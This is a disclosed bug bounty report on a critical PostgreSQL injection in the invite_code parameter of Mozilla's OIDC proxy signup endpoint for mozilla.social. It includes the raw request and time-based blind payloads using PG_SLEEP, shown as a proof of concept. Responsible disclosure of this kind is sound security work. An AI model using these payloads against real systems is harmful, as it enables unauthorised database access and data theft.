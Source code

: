 # SQL Injection on prod.oidc-proxy.prod.webservices.mozgcp.net via invite_code parameter - Mozilla social inscription

## Report Details
- **Report ID**: 2209130
- **URL**: https://hackerone.com/reports/2209130
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-10-14T12:47:48.736Z
- **Disclosed**: 2024-01-30T13:29:52.510Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
Hi everyone,

Hope you are well ! 

I wanted to play on [https://mozilla.social](https://mozilla.social), however this requires a user account and an invitation code as it's not open to the public. When entering an invitation code, the user is redirected to `prod.oidc-proxy.prod.webservices.mozgcp.net`.

{F2773206}

Playing around with what's on offer, I've noticed that the `invite_code` parameter is vulnerable to a PostgreSQL injection.

## Steps To Reproduce:

During registration, the following POST request is made : 

```
POST /interaction/KTTbkN8LaJgYIb7fIwPYX/signup HTTP/2
Host: prod.oidc-proxy.prod.webservices.mozgcp.net
Cookie: <session_cookies>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.9999.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: null
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Ch-Ua-Platform: "macOS"
Sec-Ch-Ua: "Google Chrome";v="103", "Chromium";v="103", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers

handle=xxx&display_name=xxx&invite_code=xxx-&age=25&terms=on&rules=on
```

Adding a single quote to the `invite_code` parameter returns a 500 error, and adding a second quote returns a 200. **Red flag**

After a few tests, here is a time-based blind payload to confirm the vulnerability : 

```
invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(5))--
```

{F2773210}

Confirm with the response from the server - which takes 5 seconds to reply.

Now, 10 seconds : 

```
invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(10))--
```

{F2773214}

Same here, 10 secs before getting an answer.

20 sec : 

```
invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(20))--
```

{F2773218}

etc.

## Impact

From [OWASP](https://owasp.org/www-community/attacks/SQL_Injection) : 

> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

I'm working on a data exfiltration and will update the report as needed.

Looking forward to exchanging.

Regards,
Supr4s

## Attachments
- image.png
- image.png
- image.png
- image.png
